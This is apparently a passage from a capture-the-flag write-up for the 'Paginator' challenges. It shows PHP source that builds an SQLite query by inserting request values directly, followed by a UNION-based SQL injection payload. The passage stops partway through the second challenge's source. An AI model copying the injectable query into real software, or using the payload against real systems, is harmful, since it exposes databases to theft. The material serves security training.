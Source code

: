 ```php
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>

<html>
    <head>
        <title>Paginator</title>
    </head>
    <body>
        <h1>Paginator</h1>
        <a href="/?p=2,10">Show me pages 2-10</a>
        <p>To view the source code, <a href="/?source">click here.</a>
    </body>
</html>
```

The payload is: `GET /?p=2,3+UNION+SELECT+*+from+pages+ HTTP/1.1`

## Paginator 2

We have almost the same code but it has the flag in another table which we dont know about.

```php
<?php
ini_set("error_reporting", 1);
ini_set("display_errors",1);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php"; // Now the juicy part is hidden away! $db = new SQLite3('/tmp/db.db');

try{
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 3', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 4', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 5', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 6', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 7', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 8', 'This is not a flag, but just a boring page.')");
```